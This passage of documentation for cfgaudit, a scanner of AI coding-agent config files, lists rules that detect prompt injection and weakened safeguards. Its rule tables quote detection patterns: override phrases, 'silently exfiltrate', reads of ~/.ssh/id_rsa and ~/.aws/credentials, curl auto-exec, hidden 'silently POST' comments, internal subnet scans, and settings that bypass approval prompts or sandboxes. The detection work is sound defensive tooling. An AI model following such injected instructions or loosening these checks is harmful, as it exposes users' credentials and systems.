| MCP02 – Privilege Escalation via Scope Creep | CFG003, CFG011, CFG053, CFG076 |
| MCP04 – Software Supply Chain Attacks & Dependency Tampering | CFG010, CFG055, CFG059, CFG070 |
| MCP05 – Command Injection & Execution | CFG017, CFG019, CFG020, CFG083 |
| MCP07 – Insufficient Authentication & Authorization | CFG018, CFG066 |
| MCP09 – Shadow MCP Servers | CFG052 |

MCP03 (Tool Poisoning), MCP06 (Intent Flow Subversion), MCP08 (Lack of Audit & Telemetry), and MCP10 (Context Injection & Over-Sharing) have no dedicated config rule yet — they involve runtime tool behaviour or live server inspection rather than a statically committed config surface.

### Instruction files — `CLAUDE.md` & other agents

AI coding agents read their instruction files as trusted system-context every session, so a committed or user-global instruction file is a prompt-injection target. The project `CLAUDE.md` is scanned automatically and `~/.claude/CLAUDE.md` with `--user`. The same content rules also scan, when present in the project: `.cursorrules`, `.cursor/rules/*.{md,mdc}`, `.cursor/commands/*.md` (Cursor 1.6+ custom commands: the filename becomes the slash command and the file's whole content becomes the prompt), `.windsurfrules`, `.windsurf/rules/*.md`, `AGENTS.md` and the singular `AGENT.md` (Amp / Grok CLI convention), `GEMINI.md` (Gemini CLI; `~/.gemini/GEMINI.md` with `--user`), GitHub Copilot's `.github/copilot-instructions.md`, path-specific `.github/instructions/*.instructions.md` and custom agents (`.github/agents/*.md`, also the `*.agent.md` spelling, whose body is the agent's system prompt), Gemini CLI's project agents (`.gemini/agents/*.md`), and Claude Code's custom **subagents** (`.claude/agents/*.md`), **slash commands** (`.claude/commands/*.md`), **skills** (`.claude/skills/*/SKILL.md`), and **modular rules** (`.claude/rules/**/*.md`, discovered recursively) — these also under `~/.claude/` with `--user`. It also scans **`.agents/skills/**/SKILL.md`** (recursive), the cross-agent skills convention read from the scanned project by OpenHands, OpenAI Codex, crush, goose and Kimi — a committed skill there is trusted context for all of them; `~/.agents/skills/` is covered with `--user`. GitHub Copilot's project-skills directory **`.github/skills/**/SKILL.md`** (recursive) is scanned the same way: GitHub documents `.github/skills`, `.claude/skills` and `.agents/skills` as the three interchangeable project locations, and a skill committed there is read by Copilot CLI, the cloud agent, VS Code agent mode and — GA since 2026-07-29 — Copilot code review, which reviews pull requests. It is project-only, because Copilot's personal-skills paths are `~/.copilot/skills` and `~/.agents/skills`, not `~/.github/skills`. And it scans Kimi Code's project agent definitions — **`.kimi-code/agents/**/*.md`** and **`.agents/agents/**/*.md`** (both recursive) — whose bodies are trusted context and whose `override: true` frontmatter is flagged by [CFG092](docs/rules/CFG092.md). Findings name the file they came from.

| ID | Severity | Description | OWASP |
|----|----------|-------------|-------|
| [CFG024](docs/rules/CFG024.md) | error | instruction file contains hidden Unicode control characters (Tags block, zero-width, BiDi/Trojan Source) — prompt injection / ASCII smuggling | LLM01 |
| [CFG026](docs/rules/CFG026.md) | error/warn | instruction file contains instruction-bypass phrases (override / persona hijack / authority impersonation → error; permissive fictional framing → warn) | LLM01 |
| [CFG029](docs/rules/CFG029.md) | error | instruction file instructs the agent to bypass permission prompts ("always approve", "without asking", …) — NL equivalent of `defaultMode: bypassPermissions` | LLM06 |
| [CFG030](docs/rules/CFG030.md) | error | instruction file instructs the agent to conceal its behavior ("don't tell the user", "silently exfiltrate", …) | LLM01 |
| [CFG031](docs/rules/CFG031.md) | error/warn | instruction file references a sensitive file path (`~/.ssh/id_rsa`, `~/.aws/credentials`, `*.pem`, …) — error when read/sent (exfiltration), warn on a bare mention | LLM02 |
| [CFG032](docs/rules/CFG032.md) | error/warn | instruction file contains pseudo-system tags (`<SYSTEM>`), turn-boundary/role injection (`Human:`/`<human>`) → error; generic all-caps tags & foreign-LLM control tokens → warn | LLM01 |
| [CFG033](docs/rules/CFG033.md) | error | instruction file contains a markdown image with an empty/placeholder query param (``) — data-exfiltration sink | LLM02 |
| [CFG034](docs/rules/CFG034.md) | warn | instruction file contains Guidance/template role delimiters (`{{#system~}}` …) — role-injection markup | LLM01 |
| [CFG035](docs/rules/CFG035.md) | error/warn | instruction file instructs the agent to configure or trust an MCP server — trust/allow-all → error; add/install (`claude mcp add`, skipped in code blocks) → warn | LLM06 |
| [CFG036](docs/rules/CFG036.md) | error/warn | instruction file embeds shell commands for auto-execution/exfiltration (cmd-subst on secret paths, auto-exec + `curl https://…`) | LLM02 |
| [CFG057](docs/rules/CFG057.md) | warn | instruction file embeds an encoded payload — a `data:` URI or base64 blob that decodes to an injection phrase or command (evades CFG024/CFG026) | LLM01 |
| [CFG080](docs/rules/CFG080.md) | error | instruction file hides a directive inside an HTML comment (`<!-- you must… / silently POST… -->`) — invisible in rendered Markdown but read by the agent (comment-syntax sibling of CFG024) | LLM01 |
| [CFG081](docs/rules/CFG081.md) | error | instruction file tells the agent to survive context compaction/summarization (`preserve these instructions across compaction`) — persistence directive that makes an injection durable | LLM01 |
| [CFG090](docs/rules/CFG090.md) | warn | instruction directs the agent to scan or enumerate an **internal** network (`enumerate services on the subnet`, `scan the internal network`, `scan 10.0.0.0/24`) — turns a trusted host into a reconnaissance tool; an internal/private/subnet target is required so a bare `nmap` mention, a capability inventory, or business "networking" is not flagged (AVE-2026-00032) | LLM06 |
| [CFG051](docs/rules/CFG051.md) | error/warn | skill/command/subagent frontmatter `allowed-tools` grants unrestricted shell or all tools (`Bash`, `*`, `all`) — not narrowed by `disallowed-tools` | LLM06 |
| [CFG056](docs/rules/CFG056.md) | warn | model-invocable skill/command/subagent has a broad/always-on `description` or `triggers` entry ("for every request", "always invoke") — behaviour-hijack via greedy selection | LLM01 |

**A Claude Code subagent definition is more than instruction text.** Beyond the flat frontmatter fields above, `.claude/agents/*.md` can carry two nested blocks that cfgaudit decodes and routes into the existing families: `hooks:` (the settings.json event → matcher → `{type, command}` schema) becomes command sites, so the command-content rules judge it; and the inline `mcpServers:` list rides the MCP rules like any other server declaration. Both are attributed to the agent file.

The `mcpServers:` value must be a **list** whose entries are either a single-key mapping (an inline definition) or a bare string (a reference to a server configured elsewhere, which declares nothing of its own and is skipped). A mapping-shaped `mcpServers:` — the shape `.mcp.json` uses — is deliberately **not** decoded: Claude Code 2.1.220 ignores it, verified by running a subagent that declared a server each way and observing which process actually launched, so flagging it would report a server that never connects.

**GitHub Copilot custom agents** (`.github/agents/*.md`, also the `*.agent.md` spelling) are scanned the same way, with two shape differences: the key is kebab-case **`mcp-servers`** and its value is a **mapping** of server name to config, not a list. The per-server config is the format GitHub's repository-level MCP configuration uses (`type` of `local`/`stdio`/`http`/`sse`, `command`/`args`/`env` for local servers, `url`/`headers` for remote ones), so the whole MCP family applies. Copilot's custom-agent frontmatter has no hooks block, so none is decoded there. Unlike the Claude Code side, this shape rests on GitHub's reference documentation plus the customization spec checked into the microsoft/vscode tree rather than on a run against the agent itself.

The frontmatter hooks have a **narrower trigger** than a `settings.json` hook: they fire when the agent is spawned through the Agent tool or an @-mention, or when it runs as the main session via `--agent` or the `agent` setting, and since 2.1.218 they also require the agent file's folder to have accepted workspace trust. That is why [CFG067](docs/rules/CFG067.md) (committed hooks run on everyone who opens the repo) and [CFG086](docs/rules/CFG086.md) (zero-click event) are **not** extended to them — the command content is the finding, not the trigger. The inline `mcpServers:` block has no such gate: it connects when the subagent starts, including in a folder whose trust dialog was never accepted.

### Plugin & skill packages

Installing an agent plugin is a supply-chain trust decision. With `--plugins <dir>` (and auto-discovered when the scanned project bundles a `.claude-plugin/` or a `kimi.plugin.json`, or `~/.claude/plugins/` under `--user`), cfgaudit looks **inside** the package and runs the existing rules against its bundled artifacts:

| Artifact | Rules applied |
|----------|---------------|
| `SKILL.md` | CLAUDE.md content rules — CFG024 (hidden Unicode), CFG026 (instruction-bypass) |
| `hooks/hooks.json` | command-content rules — CFG008, CFG009, CFG014, CFG015, CFG027, CFG028; instruction-content rules over `type: "prompt"` / `type: "agent"` hook prompts — CFG024, CFG026, CFG029–CFG036, CFG057 |
| `plugin.json` `mcpServers` | MCP rules — CFG010, CFG011, CFG017–CFG021 |
| `kimi.plugin.json` `mcpServers` | MCP rules — the same set |
| `kimi.plugin.json` `systemPrompt` / `systemPromptPath` | instruction-content rules — text a Kimi plugin contributes to the agent's system prompt, and the file it points at |

Findings are attributed to the in-package file.

**This half is author-side, and deliberately so.** A Kimi Code plugin is loaded from the user's install store, never from a scanned repository, and there is no committed key that enables one — enablement lives in that store (`PluginManager` reads `readInstalled(kimiHomeDir)`), which a repo cannot write. So a `kimi.plugin.json` is scanned for the benefit of the author publishing the plugin and the reviewer reading it before installing, which is exactly what the `.claude-plugin/` handling already offers. It is not a vector against the scanned repo's own contributors, and cfgaudit does not claim otherwise. The manifest's `hooks` array is a distinct schema from the event-to-matcher-groups map every other agent uses and is not decoded. Bundled binaries / arbitrary scripts are **not** content-scanned (that is general SAST, outside cfgaudit's config-audit scope).

### Agent-skills lockfile — `skills-lock.json`

The [vercel-labs/skills](https://github.com/vercel-labs/skills) CLI (skills.sh) records the external sources it pulls agent **skills** (instruction content) from in a `skills-lock.json` at the repo root. cfgaudit scans the committable project-root file; the user-global `~/.agents/.skill-lock.json` is out of scope (not committable).

| Rule | Severity | What it flags | OWASP |
|------|----------|---------------|-------|
| [CFG074](docs/rules/CFG074.md) | warn | a `skills-lock.json` entry pulls skill content from a remote source with **no integrity pin** — no content hash (`computedHash`/`integrity`), resolved `commit`, or full-SHA `ref` — so an upstream owner can change the installed skill text under every contributor (pinned entries and `local` sources are not flagged) | LLM03 |

### VS Code workspace — `.vscode/`

`.vscode/` files are committed into repositories and read by VS Code **and its forks (Cursor, Windsurf)**, so a committed workspace config is a repo-controlled auto-run / supply-chain surface. cfgaudit scans these automatically when present and attributes findings to the source file.

| ID | Severity | Description | OWASP |
|----|----------|-------------|-------|
| [CFG047](docs/rules/CFG047.md) | error/warn | a committed task file auto-runs a command — `.vscode/tasks.json` `runOptions.runOn: "folderOpen"` is zero-click code execution when the repo is opened (→ error), and a Zed `.zed/tasks.json` task carrying the `create_worktree` hook is spawned without a prompt for the command when a git worktree is created (→ warn; unlike `.zed/settings.json`, that file is not worktree-trust gated). A silent `reveal`/`presentation` is called out in both | LLM06 |
| [CFG048](docs/rules/CFG048.md) | error/warn | `.vscode/settings.json` weakens agent auto-approval — `chat.permissions.default` set to `autoApprove`/`autopilot` (every new session starts with the approvals granted; successor to CVE-2025-53773), the same decisions in their object spelling `chat.defaultConfiguration` (`approvals: allowAll`, `mode: autopilot`), `chat.tools.edits.autoApprove` re-enabling a protected path such as `**/.vscode/*.json` (chains into CFG047), a host-unrestricted `chat.tools.urls.autoApprove`, a catch-all `chat.tools.terminal.autoApprove` pattern, `chat.tools.terminal.ignoreDefaultAutoApproveRules` (warn: removes the built-in denials), or the blanket `chat.tools.global.autoApprove` (warn: application-scoped, so upstream ignores it from a workspace file), `chat.useClaudeHooks` (switches on execution of Claude-format hooks, default off, and the default hook paths already include this repo's `.claude/settings.json`) and a `chat.hookFilesLocations` path outside the defaults | LLM06 |

### Cursor & GitHub Copilot — hooks, permissions and repository settings

Cursor's `.cursor/hooks.json` and Copilot's `.github/hooks/*.json` declare shell commands, prompts and HTTP callbacks the agent runs at points in its lifecycle. Copilot has a second spelling of its own: an inline `hooks` table in `.github/copilot/settings.json`, which the CLI's settings help describes as "the same schema as `.github/hooks/*.json`" acting "as repo-level hooks", and cfgaudit reads both. Its `disableAllHooks` is **global** rather than per-file ("whether to disable all hooks (repo-level and user-level)"), so a repository setting it suppresses every Copilot hook finding, the inline table and the files alike. Cursor's docs say hooks are *"stored in version control alongside your code"* and *"automatically load for all team members"*, so both are committable execution surfaces. Their **command content** is judged by the command-content rules (CFG008/009/014/015/027/028/037/038/039/059/072/077/078), which run over these files too; the rules below cover what the command text cannot show — the trigger, the permission decision, the declared network channel, and the plugin supply chain.

Cursor 2.5 added a second committable file, **`.cursor/permissions.json`**, naming what runs without an approval prompt: `terminalAllowlist` (matched on the command **prefix**), `mcpAllowlist` (`"<server>:<tool>"` patterns, `"*:*"` = everything), and `autoRun` instructions that steer the Auto-review classifier in natural language. Cursor **concatenates** the per-repo file with a teammate's `~/.cursor/permissions.json` instead of letting either override the other — only a team-admin dashboard policy outranks it — and the docs ask you to *"commit the per-repo file so teammates inherit the same rules"*. So an entry shipped in a repo cannot be taken back by the person who clones it. cfgaudit scans the **project** file only; a user's own copy is self-intentional. Both rules name Cursor's own precondition (`permissions.json` applies only when Run Mode is enabled) rather than implying the entries always fire, and neither makes any claim about how Cursor treats chained commands, pipes or subshells, which its reference does not document.

Cursor 2.5 also added **`.cursor/sandbox.json`**, the profile bounding what agent-run commands may touch: `type` (`workspace_readwrite` by default, or `insecure_none`, which disables the sandbox), a `networkPolicy` object whose documented default is `deny`, and `additionalReadwritePaths` / `additionalReadonlyPaths`. The two sandbox files are merged *"with per-repo settings taking priority"*, so a committed profile overrides the isolation a teammate chose for themselves. [CFG095](docs/rules/CFG095.md) reports the weakening directions only: `workspace_readonly` and `disableTmpWrite` make the sandbox **stricter** and are deliberately not flagged, and a grant that stays inside the workspace is silent.

| ID | Severity | Description | OWASP |
|----|----------|-------------|-------|
| [CFG086](docs/rules/CFG086.md) | error | committed agent hook runs on a zero-click event — Cursor `.cursor/hooks.json` `workspaceOpen`, Copilot `.github/hooks/*.json` or the inline `hooks` table in `.github/copilot/settings.json` `sessionStart`, or Grok `.grok/hooks/*.json` `SessionStart` — executes on every teammate who opens the repo, before they ask the agent for anything (cross-agent analogue of CFG047/CFG067) | LLM03 |
| [CFG087](docs/rules/CFG087.md) | error/warn | committed hook auto-approves tool calls — answers a permission gate with the allowing value (Copilot `behavior` on `permissionRequest`, `permissionDecision` on `preToolUse`; Cursor `permission` on `preToolUse`/`beforeShellExecution`/`beforeMCPExecution`/`subagentStart`), removing the confirmation prompt for everyone who opens the repo; argument rewriting (`modifiedArgs`/`updated_input`) is warn | LLM06 |
| [CFG088](docs/rules/CFG088.md) | error/warn | Copilot `type: "http"` hook POSTs the event payload (prompts, tool names and arguments) to a non-loopback URL — a network channel declared in config rather than command text (CFG038's blind spot); a non-empty `allowedEnvVars`, which permits named environment variables to be expanded into the request headers, escalates it to error | LLM02 |
| [CFG089](docs/rules/CFG089.md) | warn | `.github/copilot/settings.json` auto-installs third-party plugins — `enabledPlugins` loads a plugin's hooks/commands/MCP on session start, and an `extraKnownMarketplaces` source without a full-SHA `sha`/`ref` is unpinned (CFG055's threat model in Copilot's file; warn because its committability is inferred, not documented) | LLM03 |
| [CFG093](docs/rules/CFG093.md) | error/warn | committed `.cursor/permissions.json` allowlist auto-approves terminal commands or MCP tools — an unbounded entry is error (`mcpAllowlist` wildcard `*`/`*:*`/`<server>:*`, or a `terminalAllowlist` base command that runs other commands such as `bash`/`npx`/`docker`, which the documented prefix match turns into arbitrary execution), a bounded entry is warn; Cursor concatenates the per-repo file with a teammate's own, so they cannot remove an entry | LLM06 |
| [CFG094](docs/rules/CFG094.md) | warn | committed `.cursor/permissions.json` `autoRun.allow_instructions` steers Cursor's auto-approval classifier with repo-supplied prose — CFG079's threat model in Cursor's file, in natural language rather than match rules; `block_instructions` is not flagged because it pushes toward asking | LLM06 |
| [CFG095](docs/rules/CFG095.md) | error/warn | committed `.cursor/sandbox.json` weakens the execution sandbox — `type: "insecure_none"` (documented as disabling it entirely), `networkPolicy.default: "allow"` (Cursor's default is `deny`), or a write/read grant reaching a credential dir, system path, home or `/` → error; an unbounded `networkPolicy.allow` pattern, another outside-workspace write grant, or `enableSharedBuildCache` → warn. `workspace_readonly` and `disableTmpWrite` are **not** flagged: both make the sandbox stricter | LLM06 |

### Gemini CLI — `.gemini/settings.json` & `GEMINI.md`

[Gemini CLI](https://github.com/google-gemini/gemini-cli) stores its config in `settings.json` with a security surface that mirrors Claude Code's. cfgaudit discovers `.gemini/settings.json` (project) and `~/.gemini/settings.json` (with `--user`), and `GEMINI.md` (project) / `~/.gemini/GEMINI.md` — the latter scanned by the same content rules as `CLAUDE.md` (CFG024–CFG036, CFG057). A Gemini `mcpServers` block rides the shared MCP rules (CFG010–CFG021, CFG049–CFG059), attributed to the settings file. Its `hooks` block (the nested `hooks.<Event>[].hooks[].command` shape) is scanned too: every hook command rides the command-content rules (CFG008/009/014/015/…), a `SessionStart` hook — Gemini's one zero-click event — is flagged by [CFG086](docs/rules/CFG086.md) as a committed command that runs before anyone asks the agent for anything, and a `BeforeTool` hook that rewrites the tool arguments (`hookSpecificOutput.tool_input`) is flagged by [CFG087](docs/rules/CFG087.md) (`warn`). Gemini hooks **cannot** auto-approve a tool call (`decision: "allow"` is inert in the CLI), so CFG087 has no `error` case for them. The `hooksConfig.enabled: false` / `hooksConfig.disabled` kill switches are honoured, and event names are matched as exact PascalCase (Gemini does not normalize them). Three rules cover the Gemini-specific settings:

| ID | Severity | Description | OWASP |
|----|----------|-------------|-------|
| [CFG060](docs/rules/CFG060.md) | error | Gemini `general.defaultApprovalMode` is `auto_edit` (or `yolo`) — auto-approves tool actions, the Gemini equivalent of `defaultMode: bypassPermissions` | LLM06 |
| [CFG061](docs/rules/CFG061.md) | error/warn | Gemini sandbox weakened — `tools.sandboxAllowedPaths` exposes `/` or `~` (error), or `tools.sandboxNetworkAccess: true` gives sandboxed tools network egress (warn) | LLM06 |
| [CFG062](docs/rules/CFG062.md) | warn | Gemini `security.blockGitExtensions: false` with no `security.allowedExtensions` allow-list — installs extensions from arbitrary Git repos (supply chain), or `experimental.extensionRegistryURI` pointing away from the default registry (the catalogue the agent discovers extensions from, honoured once the folder is trusted). `security.autoAddToPolicyByDefault` is **not** flagged: it only moves the highlighted option in a confirmation dialog that still appears | LLM03 |
| [CFG096](docs/rules/CFG096.md) | error | committed Gemini MCP server declared `trust: true` — every tool that server exposes then runs with no confirmation prompt once the folder is trusted; applies to `.gemini/settings.json` and the `mcp_servers` block of a `.gemini/agents/*.md`. Gated on the source file, since only Gemini declares the key | LLM06 |
| [CFG097](docs/rules/CFG097.md) | error | committed Gemini **remote** agent (`.gemini/agents/*.md` with `agent_card_url`/`agent_card_json`/`auth`) points at a non-loopback host over cleartext `http://`, or carries a credential literal in its `auth` block instead of a `$VAR` reference | LLM02 |

**Gemini's project agents live in `.gemini/agents/*.md`**, which its docs list as *"Project-level … Shared with your team"*. cfgaudit scans them as instruction content and decodes the frontmatter's `mcp_servers` mapping onto the shared MCP rules, folding Gemini's `http_url` spelling into the URL the rules read (the key is snake_case `mcp_servers`; `mcpServers` is only the internal name after conversion, and the local-agent schema is `.strict()`, so writing it would make Gemini reject the file), so a cleartext endpoint (CFG049) or a secret-bearing `headers` value (CFG050) declared in a committed agent file is caught. Discovery mirrors Gemini's own loader rather than a plain glob: a single directory read with **no recursion**, `.md` only, and names starting with `_` skipped, because reporting an `_draft.md` would claim a finding in a file Gemini never loads.

The three remaining fields are covered by [CFG096](docs/rules/CFG096.md) (the per-server `trust` flag, which skips the confirmation prompt once the folder is trusted, and which is equally live in `.gemini/settings.json`) and [CFG097](docs/rules/CFG097.md) (a **remote** agent whose `agent_card_url` is cleartext, or whose `auth` block carries a credential literal instead of a `$VAR` reference).

### OpenAI Codex CLI — `.codex/config.toml` & `AGENTS.md`

[OpenAI Codex CLI](https://github.com/openai/codex) keeps its config in `config.toml` (TOML) and uses `AGENTS.md` as its project instruction file. `AGENTS.md` is already scanned by the shared instruction-content rules (CFG024–CFG036, CFG057).

Codex config is **project-merged**: alongside the user file it loads a repo-local `.codex/config.toml`, resolved at the git root and by walking parent directories. cfgaudit scans the committed `<repo>/.codex/config.toml` **always**, and `~/.codex/config.toml` with `--user`. Its `[mcp_servers]` ride the shared MCP rules (CFG010–CFG021, CFG049–CFG059) — the literal `http_headers` map onto the shared header checks (`env_http_headers` holds environment variable *names*, so it is read but not treated as a secret carrier), `http_headers_helper` is a command site (upstream runs it as `sh -c`), and the approval modes `default_tools_approval_mode` / `tools.<tool>.approval_mode` are reported by [CFG011](docs/rules/CFG011.md) when set to `"approve"`, the one value that never asks. Its `notify` program (run by Codex on events) is scanned by the command-content rules (CFG008/014/015/027/028/037/038/039), and two rules cover the Codex-specific settings:

Codex guards a subset of keys against repo contents (`PROJECT_LOCAL_CONFIG_DENYLIST`: base URLs, `model_provider(s)`, `notify`, `profile(s)`, `otel`). cfgaudit drops those from a project file, so a committed `notify` is not treated as a command site and a committed `chatgpt_base_url` does not trigger CFG071 — the CLI would ignore them. `approval_policy`, `sandbox_mode` and `mcp_servers` are not on that denylist. Project layers are loaded but disabled while the directory is untrusted, which caps the blast radius the way Cursor's workspace trust does for CFG086.

| ID | Severity | Description | OWASP |
|----|----------|-------------|-------|
| [CFG063](docs/rules/CFG063.md) | error/warn | Codex removes the human from the approval loop — `approval_policy` is `never` (auto-approve all → error) or `on-failure` (deprecated → warn), or `approvals_reviewer` is `auto_review`/`guardian_subagent`, which routes escalated prompts to a reviewer subagent instead of the person (→ warn) | LLM06 |
| [CFG064](docs/rules/CFG064.md) | error/warn | Codex sandbox disabled or widened — `sandbox_mode: danger-full-access` (→ error), or under workspace-write a `[sandbox_workspace_write]` that sets `network_access = true` (re-opens egress → error) or lists `writable_roots` outside the workspace (credential/system/home/root → error, otherwise warn). `exclude_tmpdir_env_var`/`exclude_slash_tmp` are **not** flagged: both harden. Also the named permission profiles: a `[permissions.<name>]` that `default_permissions` selects (or reaches through `extends`) whose `network` block sets `proxy_url`/`socks_url` or `dangerously_allow_all_unix_sockets` (→ error), `enabled = true` (→ error when egress is unscoped or the `domains` allowlist is a catch-all, warn when the allowlist names its hosts), or `dangerously_allow_non_loopback_proxy` on its own (→ warn); and its `filesystem` block granting `":root"`, a credential path (read counts, `.pub` excluded) or a system path with write (→ error). A profile nothing selects is not flagged | LLM06 |

**Codex lifecycle hooks** live in two committable places, `<repo>/.codex/hooks.json` and an inline `[hooks]` table in `.codex/config.toml`, across eleven events (`PreToolUse`, `PermissionRequest`, `PostToolUse`, `PreCompact`, `PostCompact`, `SessionStart`, `SessionEnd`, `UserPromptSubmit`, `SubagentStart`, `SubagentStop`, `Stop`). `hooks` is **not** on the project-layer denylist, so a committed table is discovered; cfgaudit scans both files and sends every `type: "command"` handler through the command-content rules (CFG008/009/014/015/027/028/037/038/039/059/072/077/078). The Windows spelling (`commandWindows` / `command_windows`) counts too; `type: "prompt"` and `type: "agent"` do not, because Codex's discovery skips them as *"not supported yet"*.

**The trigger is deliberately not modelled, and CFG086/CFG087 stay off Codex.** Codex runs a non-managed hook only when the user's own config layer records a `trusted_hash` equal to the hook's current content hash (`codex-rs/hooks/src/engine/discovery.rs`), and hook state is readable only from the User and SessionFlags layers, so a repository cannot self-trust its own hooks — a committed `SessionStart` hook is *listed for review*, not run. That makes it neither zero-click (CFG086) nor an auto-approval declaration (CFG087); a `PermissionRequest` hook's `allow`/`deny` decision comes from the hook process's stdout, not from anything in the committed file. What cfgaudit adds is the command text, in front of the reviewer at the moment Codex asks them to trust it. Editing a trusted hook's command invalidates the hash, and `--dangerously-bypass-hook-trust` is a CLI flag no repo can set.

### Continue — `.continue/config.yaml` & `.continue/settings.json`

[Continue](https://github.com/continuedev/continue) configures MCP servers and model providers in `config.yaml`. cfgaudit discovers `.continue/config.yaml` (project) and `~/.continue/config.yaml` (`--user`). Its `mcpServers` **list** rides the shared MCP rules (CFG010–CFG021, CFG049–CFG059) — a remote `type: "sse"` server trips CFG058, a non-loopback `url` trips CFG049, and so on; its `rules` and `prompts` (trusted instruction context) are scanned by the instruction-content rules (CFG024–CFG036, CFG057). Continue-specific rules:

| ID | Severity | Description | OWASP |
|----|----------|-------------|-------|
| [CFG065](docs/rules/CFG065.md) | error | Continue config has a hardcoded inline `apiKey` literal on a `models[]` or remote `mcpServers[]` entry — a committed credential (`${{ secrets.* }}` references and placeholders are not flagged) | LLM02 |
| [CFG071](docs/rules/CFG071.md) | error | model/provider base URL, or a Continue `data[].destination`, over cleartext `http://` to a remote host — Continue `models[].apiBase` and `data[].destination` (the latter carries session content, and `level: all` includes code) or Codex `chatgpt_base_url`/`[model_providers].base_url`; the API key is sent in plaintext (multi-provider analogue of CFG005) | LLM02 |

**Continue's CLI also reads a Claude-Code-shaped `hooks` block from a *different* file**: `.continue/settings.json` (committed) and `.continue/settings.local.json` (project-local). The loader's own header says it reads "hooks from settings files in the same locations as Claude Code", and it additionally reads this project's `.claude/settings.json` and `.claude/settings.local.json` for cross-compatibility — so the hook findings cfgaudit already produces for those Claude files protect Continue users too. Every handler type lands on an existing rule: `command` goes to the command-content family, `http` to [CFG088](docs/rules/CFG088.md) (identical `url`/`headers`/`allowedEnvVars` fields to Copilot's), and `prompt`/`agent` carry text sent to a model, so it is scanned as instruction content.

A committed `SessionStart` command hook is flagged by [CFG086](docs/rules/CFG086.md), and this is the strongest case in that rule: **Continue's hook path has no trust gate**. `HookService` loads the config and fires the event, with `disableAllHooks` as the only switch. That switch is **global** rather than per-file — Continue sets one flag if any settings file carries it, after which no hook from any file runs — so cfgaudit drops both `.continue` files when either disables hooks. Event names are matched by exact spelling, because Continue resolves them by lookup against its declared list.

### Devin CLI — `.devin/` and everything it imports

`.devin/config.json` is described by Devin's own docs as *"shared team configuration committed to version control"*. Its `mcpServers`, `hooks` and `permissions` are scanned; `sandbox` is not, because Devin documents it as user-only and reading it from a project file would invent a finding on configuration the CLI ignores.

Devin keeps **four** project files, and cfgaudit reads all of them, attributing every finding to the file the entry came from:

| Path | Devin's description | Scope |
|---|---|---|
| `.devin/config.json` | Project settings (committed) | project |
| `.devin/config.local.json` | Project local overrides (gitignored) | project-local |
| `.devin/mcp_config.json` | Project MCP servers (committed) | project |
| `.devin/mcp_config.local.json` | Project local MCP servers (gitignored) | project-local |

MCP servers moved into the dedicated files in **v3000.3** (*"the Local 3.6 release"*); the `mcpServers` key of the main config is still honoured by older versions and migrated on startup by newer ones, so both locations are read rather than one replacing the other. The `.local` twins are gitignored by design and get the project-local scope cfgaudit already uses for `.claude/settings.local.json` and `.continue/settings.local.json` — a committed one still applies, and takes precedence over the shared file. The dedicated MCP files contribute servers only: a hook or permission finding is never attributed to them.

**A repository with no `.devin/` directory at all can still affect a Devin session.** Devin CLI imports configuration from other tools' files, and its `read_config_from` reference lists eight keys — `agents_standard`, `cursor`, `windsurf`, `claude`, `copilot`, `opencode`, `vscode`, `zed` — **all defaulting to `true` when absent**. Setting one to `false` narrows the import; there is no value that widens beyond the default. That is why `read_config_from` is not a rule: it grants a repository no capability it could not get by writing `.devin/config.json` directly.

What it does mean is that cfgaudit's existing findings already cover most of that path. Of the files Devin imports:

| Devin imports | cfgaudit |
|---|---|
| `AGENTS.md`, `AGENTS.local.md`, `AGENT.md`, `.windsurfrules` | scanned as instruction content |
| `.cursor/rules/*.{md,mdc}`, `.cursor/mcp.json` | scanned |
| `.windsurf/rules/*.md`, `.windsurf/global_rules.md` | scanned |
| `CLAUDE.md`, `.claude/skills/**/SKILL.md`, `.claude/commands/**/*.md` | scanned |
| `.mcp.json`, `.claude/settings.json`, `.claude/settings.local.json` | scanned |
| `.github/skills/**/SKILL.md` | scanned |
| `.vscode/mcp.json`, `.zed/settings.json` | scanned |
| `opencode.json` | scanned (`mcp`, `shell`, `lsp`, `formatter`, `agent.prompt`, `command.template`) |

This is the same shape as the Continue note above: existing findings on one agent's files protect another agent's users, and it is not obvious from the rule list that they do.

### OpenCode — `opencode.json`

[OpenCode](https://github.com/anomalyco/opencode) keeps its project config at the repository root, and its own docs call the file *"safe to be checked into Git"*. It also **outranks the user's global config** in the documented precedence order, so a committed value wins against the one a contributor set for themselves. cfgaudit scans it with no OpenCode-specific rule logic:

- **`mcp`** rides the shared MCP rules (CFG010–CFG021, CFG049–CFG059). The `command` array is split into the executable and its arguments, `environment` maps onto `env`, and an entry with `enabled: false` is skipped.
- **`shell`** (*"Default shell to use for terminal and bash tool"*), **`lsp.<id>.command`** and **`formatter.<id>.command`** are command sites, so the command-content rules read them. An entry with `disabled: true` is not a site, and the `boolean` form of the `lsp` / `formatter` blocks (`"lsp": true` enables the built-ins) declares no command.
- **`agent.<name>.prompt`** and **`command.<name>.template`** are instruction content (CFG024–CFG036, CFG057): the first replaces that agent's instructions, the second is the text the command sends.

`permission`, `plugin`, `skills` and `instructions` are **not** modelled yet ([#525](https://github.com/cfgaudit/cfgaudit/issues/525)). The permission block needs care rather than parsing: OpenCode's documented defaults are already permissive (*"Most permissions default to `allow`"*, with only `doom_loop` and `external_directory` defaulting to `ask`, and `.env` files denied for `read`), so the common committed `"*": "allow"` mostly restates the default and only a narrow set of values is a real weakening.

### xAI Grok CLI — `.grok/`

[Grok CLI](https://github.com/xai-org/grok-build) keeps its config in `.grok/`, and its user guide marks the project config committable (*"Project (committed) | `<project>/.grok/config.toml` | Yes (commit it)"*). cfgaudit scans the committable surfaces, all of which ride on existing rules with no Grok-specific rule logic:

- **`.grok/config.toml`** `[mcp_servers]` (TOML, snake_case; the transport is inferred from `command` vs `url`, there is no `type` field) rides the shared MCP rules (CFG010–CFG021, CFG049–CFG059). A project config contributes only `[mcp_servers]`, `[plugins]`, `[permission]` and `[mcp] max_output_bytes`; `[ui]`/`[sandbox]`/`[telemetry]`/`[model.*]` load only from `~/.grok/config.toml`, so cfgaudit does not read them from a scanned repo (they would be false positives). Of the tables a project config may contribute, cfgaudit reports `[mcp_servers]` through the shared MCP rules and `[plugins]` through [CFG100](docs/rules/CFG100.md)
- **`.grok/hooks/*.json`** command handlers become command sites (CFG008/014/027/028/037/038/039/072/077/078). Grok's hook file has the same shape as Claude Code's.
- **`.grok/rules/*.md`** and **`.grok/agents/*.md`** are scanned as instruction content (CFG024–CFG036, CFG057, CFG080/CFG081).

